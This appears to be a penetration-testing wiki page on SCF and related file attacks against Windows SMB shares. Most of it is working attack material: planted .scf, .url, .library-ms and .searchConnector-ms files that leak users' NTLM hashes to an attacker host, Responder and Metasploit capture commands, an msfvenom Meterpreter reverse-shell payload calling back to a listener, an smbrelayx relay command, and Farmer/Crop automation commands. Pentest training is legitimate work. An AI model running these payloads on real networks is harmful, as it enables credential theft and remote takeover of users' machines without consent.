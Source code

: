 # SCF File Attacks

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings. However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

## Gathering Hashes

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Saving the file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.

### **URL Files**

This attack also works with `.url` files and `responder -I eth0 -v`.

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### **Windows Library Files**

Windows Library Files (.library-ms)

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### **Windows Search Connectors Files**

Windows Search Connectors (.searchConnector-ms)

```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```
responder -wrf --lm -v -I vboxnet0
```

![](<../../../.gitbook/assets/image (257).png>)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![](<../../../.gitbook/assets/image (251).png>)

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```
auxiliary/server/capture/smb
```

![](<../../../.gitbook/assets/image (249).png>)

As previously when the user will browse the same share his password hash will be captured by Metasploit.

![](<../../../.gitbook/assets/image (252).png>)

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## Meterpreter Shells

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > pentestlab.exe
```

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

```
./smbrelayx.py -h Target-IP -e ./pentestlab.exe
```

![](<../../../.gitbook/assets/image (255).png>)

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

![](<../../../.gitbook/assets/image (247).png>)

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![](<../../../.gitbook/assets/image (253).png>)

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

## Automation

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```
